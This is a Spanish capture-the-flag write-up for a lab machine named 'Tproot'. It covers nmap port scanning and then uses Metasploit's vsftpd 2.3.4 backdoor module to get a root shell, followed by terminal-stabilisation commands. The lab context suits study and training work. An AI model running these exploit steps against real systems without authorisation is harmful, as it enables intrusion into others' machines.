

# Tproot (muy fácil)


## Escaneo de puertos

Empezamos escaneando la máquina víctima con **nmap** para ver los puertos que tenga abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-p-`` → Escanea todos los puertos (0-65535).

* ``--open`` → Muestra solo los puertos que están abiertos.

* ``-sT`` → Realiza un escaneo de conexión TCP completa (TCP Connect Scan). Es más lento que el SYN scan (-sS), pero no requiere privilegios de root.

* ``--min-rate 5000`` → Exige que el escaneo se realice con una tasa mínima de 5000 paquetes por segundo, acelerando el proceso.

* ``-vvv`` → Muestra un nivel de detalle muy alto en la salida (modo verbose máximo).

* ``-n`` → No resuelve nombres de dominio (evita consultas DNS).

* ``-Pn`` → No realiza detección de host, asumiendo que el objetivo está activo.

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oG allPorts`` → Guarda la salida en un archivo de texto llamado *allPorts*. **(OPCIONAL)**


Parece que están abiertos el puerto **ftp** y el **http**. Vamos a escanearlos a fondo.

```shell
nmap -sCV -p21,80 172.17.0.2 -oN targeted
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-sC`` → Ejecuta los scripts de detección predeterminados de **nmap** (--script=default). Estos incluyen comprobaciones de vulnerabilidades, autenticación anónima en FTP, etc.

* ``-sV`` → Detecta versiones de los servicios en ejecución en los puertos abiertos.

* ``-p21,80`` → Escanea los puertos 21 (FTP) y 80 (HTTPS).

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oN targeted`` → Guarda la salida en un archivo de texto llamado *targeted*. **(OPCIONAL)**


Parece que la página en el puerto 80 es la predeterminada de apache2, por lo que no nos interesa. En cambio, el puerto 21 parece igual que el de la [primera máquina](./firsthacking.md), con una versión de **FTP vulnerable**. Vamos al lío.
***

## Ataque

Como ya sabemos que la versión 2.3.4 de vsftpd es vulnerable y que el exploit se encuentra en Metasploit, nos ahorraremos unos pasos.
> Nota: Si todavia no has atacado la [primera máquina que documenté](./firsthacking.md), te recomiendo hacerlo para entender los pasos a continuación.

Abrimos la consola de **Metasploit**.

```shell
msfconsole
```


> Nota: puedes utilizar ``msfconsole -q`` para iniciar en modo silencioso (que no aparezcan mensajes).

Una vez dentro, buscamos el exploit.

```shell
search vsftpd 2.3.4
```



Usamos la opción 0.

```shell
use 0
```


Aquí llegamos a la parte donde hacemos algo diferente a la [primera máquina](./firsthacking.md). En vez de usar el comando ``info`` para ver toda la descripción del exploit y luego buscar donde se indican las variables a las que hay que dar valor, podemos utilizar el comando ``show`` para mostrar la información directamente.

```shell
show options
```


Utilizamos ``set`` para darle valor a las variables.

```shell
set RHOSTS 172.17.0.2
```

Para volver a iniciar el exploit ya solamente hace falta escribir ``exploit``.

```shell
exploit
```


***

## Extra

Te habrás dado cuenta que al estar en la shell, la terminal aparece "vacía". Esto se debe a que necesita tratamiento. Para ello, ejecuta los siguientes comandos:

```shell
script /dev/null -c bash
stty raw -echo
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

¡Y ya estaría! Si haces ``whoami`` podrás ver como eres **root** :).